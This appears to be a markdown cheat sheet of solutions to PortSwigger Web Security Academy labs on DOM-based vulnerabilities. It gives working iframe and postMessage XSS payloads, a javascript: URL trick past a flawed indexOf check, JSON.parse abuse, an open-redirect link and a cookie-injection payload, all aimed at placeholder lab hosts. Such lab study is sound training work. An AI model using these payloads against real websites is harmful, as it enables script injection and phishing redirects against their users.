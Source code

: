 ## When happen?

**DOM-based** vulnerabilities happen when JavaScript on a page takes data from the **URL**, **cookies**, or **user input**. 
And directly modifies the DOM without properly validating or sanitizing the data.
This can result in malicious code execution or data leakage if an attacker manipulates these inputs.

## DOM XSS using web messages

home page contains an `addEventListener()`

```
Exploit server: <iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```

## DOM XSS using web messages and a JavaScript URL

home page contains an `addEventListener()`.
The JavaScript contains a flawed `indexOf()` check that looks for the strings "http:" or "https:" anywhere within the web message. 
It also contains the sink `location.href`.

```
Exploit server: <iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## DOM XSS using web messages and JSON.parse

home page contains an `addEventListener()`.
string that is parsed using `JSON.parse()`. 
event listener expects a `type` property and that the `load-channel` case of the switch statement changes the `iframe src`.

```
Exploit server: <iframe src=https://YOUR-LAB-ID.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

## DOM-based open redirection

Blog contains :

```
<a href='#' onclick='returnURL' = /url=https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>
```
The url parameter contains an open redirection vulnerability.
So, build:

```
Exploit server: https://YOUR-LAB-ID.web-security-academy.net/post?postId=4&url=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/)
```

## DOM-based cookie manipulation

home page uses a client-side cookie called `lastViewedProduct`.

```
Exploit server: <iframe src="https://YOUR-LAB-ID.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```
